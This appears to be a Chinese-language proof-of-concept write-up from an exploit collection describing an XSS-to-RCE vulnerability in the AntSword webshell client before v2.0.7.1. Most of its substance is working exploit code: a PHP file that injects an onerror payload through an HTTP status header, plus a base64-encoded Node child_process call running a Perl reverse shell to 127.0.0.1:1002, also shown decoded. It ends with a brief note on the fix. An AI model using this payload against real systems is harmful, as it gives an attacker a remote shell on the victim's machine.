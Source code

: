 ## 漏洞背景

2019.4.12, 有用户在中国蚁剑GitHub上提交了issue，称发现中国蚁剑存在XSS漏洞，借此可引起RCE。据悉，该漏洞是因为在webshell远程连接失败时，中国蚁剑会返回错误信息，但因为使用的是html解析，导致xss漏洞。

## 影响版本

AntSword < v2.0.7.1

## 漏洞详情

当通过中国蚁剑连接webshell，出现连接失败情况时，中国蚁剑会返回错误信息，如下图：
![](https://github.com/cckuailong/PocCollect/blob/master/Web/AntSword_XSS_RCE/img/1.png)

而该信息并没有进行 XSS 保护，因此能够利用 js 调用 perl 便可反弹攻击者的shell。
![](https://github.com/cckuailong/PocCollect/blob/master/Web/AntSword_XSS_RCE/img/2.png)

```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

反弹shell的exp (for perl)如下，使用base64编码：

```
<?php

header("HTTP/1.1 406 Not <img src=# onerror='eval(new Buffer(`cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3BlcmwgLWUgXCd1c2UgU29ja2V0OyRpPSIxMjcuMC4wLjEiOyRwPTEwMDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIik7fTtcJycsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsKICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOwogIH0pOw==`,`base64`).toString())'>");
?>
```

base64_decode code

```
require('child_process').exec('perl -e \'use Socket;$i="127.0.0.1";$p=1002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};\'',(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```

成功反弹攻击者shell：
![](https://github.com/cckuailong/PocCollect/blob/master/Web/AntSword_XSS_RCE/img/3.png)

## 漏洞修复

在最新的版本中，为了防止插件中 toastr 出现类似问题, 修改了 toastr 可以输出 html 的特点，以后均不支持输出 html。
